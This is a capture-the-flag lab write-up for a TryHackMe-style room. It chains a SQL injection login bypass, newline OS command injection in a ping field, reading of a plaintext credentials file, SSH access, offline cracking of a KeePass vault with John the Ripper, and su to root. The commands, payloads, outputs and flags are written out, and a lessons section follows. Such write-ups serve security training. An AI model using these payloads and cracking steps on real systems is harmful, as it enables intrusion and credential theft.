# CorpNet NOC — Penetration Test Write-up

*TryHackMe-style room: "Green Lights, Dark Corners"* · Oct 11, 2026

## Scenario

CorpNet's internal Network Operations Centre portal had been quietly running for years — services green, audit log clean. A tip from a disgruntled contractor suggested the NOC team had been cutting corners: leaving doors open and hiding things in places no one thinks to look. The objective: get in, move through the system, and find out what's really running behind the "secret dashboard."




## Summary

| Item | Value |
| --- | --- |
| Target IP | 10.48.165.179 |
| Open ports | 22 (SSH), 5050 (HTTP — Werkzeug/Flask) |
| Attack chain | SQL Injection → OS Command Injection → Credential Exposure → Offline KeePass Crack → Privilege Escalation |
| user.txt | `THM{sQli_4nd_cMd_1nj3ct10n_l3D_t0_u_h3re!}` |
| root.txt | `THM{KDBx_V4ul7_H4s_b33n_cr4ck3d_0peN}` |

| # | Technique | Vector | Result |
| --- | --- | --- | --- |
| 1 | Directory brute-force | gobuster on port 5050 | Found hidden `/internal` operator login |
| 2 | SQL Injection | `' OR 1=1--` in login form | Authenticated as `netops`, dashboard access |
| 3 | Audit log review | Dashboard's own logs | Found a prior `%0a whoami` injection attempt, pointing at Host Health |
| 4 | OS Command Injection | Newline (`%0A`) in Host Health "target" field, via Burp | RCE as `www-data` |
| 5 | Credential exposure | `cat secret.config` through the injection point | Plaintext `sysadmin` SSH password |
| 6 | SSH access | `sysadmin` creds from secret.config | Shell access, user.txt |
| 7 | Credential harvesting | KeePass vault (`infrastructure.kdbx`) found in `~/backups` | Pulled offline for cracking |
| 8 | Offline password cracking | `keepass2john` + `john --format=KeePass` + rockyou.txt | Master password recovered |
| 9 | Vault inspection | KeePassXC | Root password recovered |
| 10 | Privilege escalation | `su root` | root.txt |

## 1. Reconnaissance

Started with a port scan to establish the attack surface.

```bash
rustscan -b 500 -a 10.48.165.179 --top -- -sC -sV -Pn
```

Results:

```
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15
5050/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.10.12)
|_http-title: CorpNet — Network Operations Centre
```

Only two services exposed. SSH needed credentials we didn't have yet, so the Flask/Werkzeug web app on port 5050 became the primary attack surface.




## 2. Web Enumeration — Finding the Hidden Login

The homepage (a public marketing-style NOC portal) gave no useful leads on its own. Directory brute-forcing uncovered a hidden path:

```bash
gobuster dir -u http://10.48.165.179:5050 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x txt,json,php,bak,zip
```

```
internal             (Status: 200) [Size: 8770]
```

This revealed `/internal`, a NOC Portal operator login form restricted to authorised personnel.



## 3. SQL Injection — Authentication Bypass

The login form was tested with a classic SQLi payload in the username field:

```
Username: ' OR 1=1--
Password: (anything)
```

This bypassed authentication entirely and logged us in as the `netops` operator account, landing on the live NOC dashboard (System Overview, Service Status, Network Segments, Audit Log).

**Why it worked:** the login query was concatenating user input directly into a SQL `WHERE` clause with no parameterisation, so `' OR 1=1--` turned the check into an always-true condition and commented out the rest of the query.




## 4. Audit Log Review — Finding the Injection Point

The dashboard's own Audit Log (a nice piece of in-fiction evidence — "clean logs can be written by anyone") showed prior `HEALTH_CHECK` events, including one entry with an encoded payload already tested against it:

```
netops   HEALTH_CHECK   127.0.0.1%0awhoami
```

`%0a` is a URL-encoded newline — a clear sign someone had already probed the Host Health feature for OS command injection. This pointed us straight at the **Host Health Check** page, which runs an ICMP probe (`ping -c 2 -W 1 <target>`) against a user-supplied hostname/IP.





## 5. OS Command Injection — RCE as www-data

The "Target Hostname or IP Address" field on the Host Health page fed directly into a shell `ping` command without sanitisation. Using Burp Suite to control the raw POST body (to inject a literal newline byte, `%0A`, which a plain browser `<input>` blocks):

```
target=localhost %0A id
```



Response:

```
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.019 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.031 ms

--- localhost ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1063ms
rtt min/avg/max/mdev = 0.019/0.025/0.031/0.006 ms
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Command injection confirmed — RCE as `www-data`. The backend was building the ping command by concatenating raw input into a shell call (consistent with Python `subprocess.run(cmd, shell=True)`), so a bare newline was enough to chain a second command.



From here the same injection point was used to read files directly rather than popping a full reverse shell:

```
target=localhost %0A ls -la
target=localhost %0A which nc python3 python bash
target=localhost %0A cat secret.config
```



`ls -la` on the web app's working directory revealed:

```
-rw-r----- 1 root     www-data   446 May 19 03:10 secret.config
-rw-r--r-- 1 root     root      7283 May 19 19:14 app.py
-rw-rw---- 1 www-data www-data 20480 Oct 11 10:10 netops.db
```

## 6. Credential Exposure — secret.config

`secret.config` (world-readable to the `www-data` group) contained plaintext service-account credentials — a classic "corners cut" misconfiguration:

```ini
# service account used by the backup agent
# TODO: migrate to secrets manager before Q2 audit
[backup_agent]
run_as   = sysadmin
password = [REDACTED]
```


Since SSH (port 22) was open, these credentials were tried directly against it rather than building a full reverse shell through the injection point.

```bash
ssh sysadmin@10.48.165.179
# password: [REDACTED]
```

Access confirmed as `sysadmin`, and **user.txt** was immediately readable:

```bash
sysadmin@tryhackme-2204:~$ cat user.txt
THM{sQli_4nd_cMd_1nj3ct10n_l3D_t0_u_h3re!}
```



## 7. Privilege Escalation — Finding the KeePass Vault

`sudo -l` confirmed `sysadmin` had **no sudo rights**, ruling out the easy path:

```bash
sysadmin@tryhackme-2204:~$ sudo -l
Sorry, user sysadmin may not run sudo on tryhackme-2204.
```

A `backups` directory in the home folder (matching the dashboard's "Backup Agent" service) contained a KeePass database:

```bash
sysadmin@tryhackme-2204:~$ ls -la backups
-rw-r--r-- 1 sysadmin sysadmin  286 README.txt
-rw------- 1 sysadmin sysadmin 2439 infrastructure.kdbx
```

`README.txt` confirmed it held **infrastructure credentials**, exported periodically by the backup agent.



## 8. Offline Attack — Cracking the KeePass Database

The vault was pulled to the attacking machine:

```bash
scp sysadmin@10.48.165.179:~/backups/infrastructure.kdbx .
```

It turned out to be a **KDBX v4** database, which older `keepass2john` builds don't support (`File version '40000' is currently not supported!`). The fix was simply calling the hash-extraction tool that ships with the installed John the Ripper **jumbo** build directly:

```bash
keepass2john infrastructure.kdbx > hasher.txt
```

This produced a crackable `$keepass$*4*15000*...` hash (KDBX4, AES/Argon2, 15000 rounds). It was then cracked with a standard wordlist attack:

```bash
./john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt ~/hasher.txt
```

Result:

```
[REDACTED]           (infrastructure)
1g 0:00:00:00 DONE
```

Master password recovered (redacted above for this write-up).



## 9. Opening the Vault — Root Credentials

The cracked database was opened in KeePassXC:

```bash
keepassxc infrastructure.kdbx
# master password: [REDACTED]
```

Inside the `backup` group, a single entry — **"Root User Password - Sensitive"** — held the credentials:

```
Username: root
Password: [REDACTED]
Notes:    root user password, remember to change later.
```



## 10. Root Access

From the existing `sysadmin` SSH session:

```bash
sysadmin@tryhackme-2204:~$ su root
Password: [REDACTED]
root@tryhackme-2204:/home/sysadmin# cd /root
root@tryhackme-2204:~# cat root.txt
THM{KDBx_V4ul7_H4s_b33n_cr4ck3d_0peN}
```

**root.txt** captured — full compromise of the host.



## Root Cause / Lessons

- **No input sanitisation** on both the login form (SQLi) and the Host Health probe (OS command injection) — user input was concatenated directly into SQL queries and shell commands.
- **Plaintext credentials** left in a world-readable config file (`secret.config`), explicitly flagged in its own comments as needing migration to a secrets manager.
- **Weak KeePass master password** — a full-strength vault encryption scheme is only as strong as the password protecting it.
- **Credential reuse** — the same `backup_agent` service account password pattern led straight from a config file to a live SSH session; the root password itself sat unrotated in the vault ("remember to change later" in the notes).

## 11. References

1. TryHackMe — [Silent-monitor room](https://tryhackme.com/room/silent-monitor)
1. Youtube — [silent-monitor room](https://www.youtube.com/watch?v=N6fOHXL_Wvs)